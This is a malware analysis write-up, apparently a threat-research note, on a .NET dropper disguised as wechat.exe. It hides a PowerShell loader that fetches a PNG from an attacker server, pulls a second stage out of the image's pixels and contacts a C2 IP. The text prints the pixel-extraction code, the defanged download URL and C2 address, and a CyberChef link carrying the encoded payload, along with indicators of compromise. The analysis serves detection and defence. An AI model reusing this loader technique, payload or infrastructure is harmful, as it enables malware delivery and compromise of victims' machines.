





## Malware composition

| File Name  |  SHA256 Hash                                                       |
|------------|--------------------------------------------------------------------|
| wechat.exe |  6f4571882606ee838590243876609effc6a78455fde3a908ed9f9220758c8eb9  |
| 121.png    |  14ef1c24de1b23249950db4e88f66987450cafff21a2be1920e26bf75c52d53e  |

## Malware analysis
`wechat.exe` is a .NET application that contains a Base64 in the main function, which is converted to UTF8 and executed (Powershell script). 

*Figure 1. dnSpy main() function*

*Figure 2. Decoded Base64 string*

The execution of the Powershell script results in downloading a PNG image file `http[:]//121.37.221[.]98:11111/121.png` and using the `System.Drawing.Bitmap` library to extract a byte array from the PNG image channels (blue and breen) with the formula `% foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}`

*Figure 3. Execution flow traced with Any.run*

*Figure 4. Thumbnail of the image containing the bytes read by the script*

Then byte array is then converted into a second stage Powershell script that contains another Base64 string that is also XORed. 

*Figure 5. Thumbnail of the image containing the bytes read by the script*

By decoding the XORed Base64 string, it is possible to immediately see a User-agent string and a C2 IP address that the malware is using to connect to: 
`User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0; WOW64; Trident/5.0)` and 
`121.37.221[.]98`

*Figure 6. Decoding the XORed Base64 string*

## Indicators of Compromise
- `6f4571882606ee838590243876609effc6a78455fde3a908ed9f9220758c8eb9` (SHA256)
- `14ef1c24de1b23249950db4e88f66987450cafff21a2be1920e26bf75c52d53e` (SHA256)
- `http[:]//121.37.221[.]98:11111/121.png`
- `121.37.221[.]98`
- `User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0; WOW64; Trident/5.0)` 

## Links
[App.any.run Interactive Sandbox](https://app.any.run/tasks/2b1e14f4-1421-447d-8f73-c295df5b0927/)

[Cyberchef recipe of the XORed Base64 string](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XOR(%7B'option':'Decimal','string':'35'%7D,'Standard',false)&input=MzJ1Z3g5UEw2eU1qSTJKeVluTnhjblZyRXZGR2E2aHhRMnVvY1R0cnFIRURhNmhSYzJzc2xHbHBiaExxYXhMamp4OUNYeUVQQTJMaTZpNWlJdUxCem5GaWNtdW9jUU9vWVI5ckl2TkZvbHM3S0NGV1VhaWpxeU1qSTJ1bTQxZEVheUx6YzZock8yZW9Zd05xSXZQQWRXdmM2bUtvRjZ0ckl2VnVFdXByRXVPUFl1THFMbUlpNGh2RFZ0SnZJRzhISzJZYThsYjdlMmVvWXdkcUl2TkZZcWd2YTJlb1l6OXFJdk5pcUNlcmF5THpZbnRpZTMxNmVXSjdZbnBpZVd1Z3p3TmljZHpEZTJKNmVXdW9NY3BzM056Y2Zra2phcDFVU2sxS1RVWlhJMkoxYXFyRmI2clNZcGx2VkFVazNQWnJFdXByRXZGdUV1TnVFdXBpYzJKellwa1pkVnFFM1BiS3NDTWpJM2xycXVKaW01QVBJeU51RXVwaWNtSnlTU0JpY21LWmRLcTg1ZHoyeUZwNGE2cmlheEx4YXFyN2JoTHFjVXNqRWVPbmNYRmltY2gyRFJqYzltdXE1V3VnNEhOSktYeHJxdEtaUENNakkwa2pTNk1RSXlOcXFzTmltaWNqSXlOaW1WWmx2YVhjOW11cTBtdXErV3JrNDl6YzNOeHVFdXB4Y1dLWkRpVTdXTnoycHVNc3ByNGlJeU5yM093c3A2OGlJeVBJa01ySElpTWp5NkhjM053TWJtbE5leU1abFEvVVVicTJHMmptL1lpeUZzajV2ck9DU3praEJTVlFiRDY4TjZyYk9Yc3ptVDQwRDdFVlZPbVpQUDNXS05FN1F6c2tNc3RiWUhDQnRmekhISHp4dGVEaTEwR2Zza0tSSTNaUVJsRU9Za1JHVFZjWkEyNU1XVXBQVDBJTUZnMFRBd3RBVEU1VFFsZEtRVTlHR0FOdWNHcG1BeG9ORXhnRGRFcE5SMHhVVUFOdGR3TVZEUk1ZQTNSc2RCVVhHQU4zVVVwSFJrMVhEQllORXdvdUtTTXdhUFVnT1pDa1NWbXNYYTZyMUFMRjFuZDg1Y3NaQ3o0ZjkwNklQelkwQnRFYk9qOWVJY1o0T3VrK2hPMDVkKzFmVWdmRndZd1lsWHlLaXhZN3U0SVZlSUNoY1Z5WEJaMGYwUXVNRkYwMmNsSnQ5YTZhemw3NjZ3VUxFa3BMMHU1K1VQMVdaWExJOVF6eUNJbU5veFVWSTlJTmd5K3VQZytpaHlRc25PbFBGMnp1K2NqUmxURWhIbjhJaUg2b2NBTVI0L1lkRzZ4TS9XOGxkeXhVSVlzUHZReFRkRlRFWGhBZGdObG5wVzFXaHNrcW9CR005OFpFYmtya3JYaW5RMmxzMWRYVW1QOC8wUXRFdHBTbnBBZlVISWJDOFdSMzllNTJPeU5pbmRPV2dYWGM5bXNTNnBrakkyTWpZcHNqTXlNallwcGpJeU1qWXBsN2gzREczUFpyc0hCd2E2ckVhNnJTYTZyNVlwc2pBeU1qYXFyYVlwa3h0YXJCM1Bacm9PY0RwdU5YbFVXb0pHc2k0S2JqVnZSN2UzdHJKaU1qSXlOejRNdGMzdHpjRWhFU0RSQVVEUkVSRWcwYUd5TVovVXVT&ieol=CRLF&oeol=NEL)

## Sources
[ANY.RUN X/Twitter post](https://x.com/anyrun_app/status/1795829055146590300)

[ANY.RUN](https://any.run)

